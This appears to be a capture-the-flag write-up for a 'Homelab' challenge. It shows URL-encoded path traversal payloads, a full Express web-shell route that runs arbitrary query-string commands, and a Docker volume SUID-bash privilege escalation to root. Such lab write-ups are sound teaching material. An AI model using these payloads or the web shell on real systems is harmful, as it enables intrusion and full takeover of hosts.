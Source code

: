 ```yaml
---
title: "4T$ CTF 2024 - Homelab ? More like Pwnlab !"
pubDate: "2024-11-10"
description: "CTF writeup for 4T$ CTF 2024 Homelab challenge."
tags:
  - writeups
  - ctf
  - docker
  - privilege escalation
  - lfi
toc: true
math: true
---
```


We would start with 2 things:

- Web SSH Access (through the browser)
- Application with simple upload/download functionality

I found that the application does not enforce the paths for uploading and downloading and you can upload/download whatever file you want, you just have to URL encode it like so:

```
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

I've also realized that this application is running in a Docker container, by going through the web SSH, I can see the docker compose file in `/home/admin/docker-compose.yml`.

In the source code of the application I had an odd route called `/restart` this would restart the application, meaning that something is running and it is making sure that this application keeps running even if I exit the process (that's what the `/restart` does). This likely hints that I need to change the application to gain RCE. So I've created another route called `/execute` and I've attached it to the `app.js` which looks like this:

```js
app.get('/execute', (req, res) => {
  const command = req.query.cmd; // Get the command from the query string

  if (!command) {
    return res.send(`
      <p>Please provide a command using the <code>?cmd=</code> query string.</p>
      <p>Example: <code>/execute?cmd=ls</code></p>
    `);
  }

  exec(command, (error, stdout, stderr) => {
    if (error) {
      return res.send(`
        <p><strong>Error:</strong></p>
        <pre>${error.message}</pre>
        <p>Command: <code>${command}</code></p>
      `);
    }

    if (stderr) {
      return res.send(`
        <p><strong>Stderr:</strong></p>
        <pre>${stderr}</pre>
        <p>Command: <code>${command}</code></p>
      `);
    }

    res.send(`
      <p><strong>Output:</strong></p>
      <pre>${stdout}</pre>
      <p>Command: <code>${command}</code></p>
    `);
  });
});
```

Then I've URL encoded it with CyberChief, and uploaded the file to this path: `..%2F..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fcwd%2Fapp.js`, then I restarted the application using the `/restart` route.

After that the route should be available to us, and I can execute arbitrary commands like: `/execute?cmd=ls`

```
Dockerfile
app.js
entrypoint.sh
node_modules
package-lock.json
package.json
public
views
```

Now earlier  docker-compose file (`/home/admin/docker-compose.yml`) which looks like this:

```yaml
services:
	webapp:
		image: webapp
		ports:
			"8080:5555"
		volumes:
			/home/user/nas_storage:/app/public/uploads
```

I can see that the container's path `/app/public/uploads` is mapped to `/home/user/nas_storage` path on the main server which I got web SSH access to, now here are the steps of how to privilege escalate to root:

- On the web SSH, copy the bash binary to the `/home/user/nas_storage/`
- On the docker container, make the bash binary owned by root and set SUID (u+s).
- On the web SSH invoke the bash binary with `-p`

And you should be root. Now you can read the flag located in `/home/admin/flag`

```
4T${pWnD_7h3_pwNl48??!}
```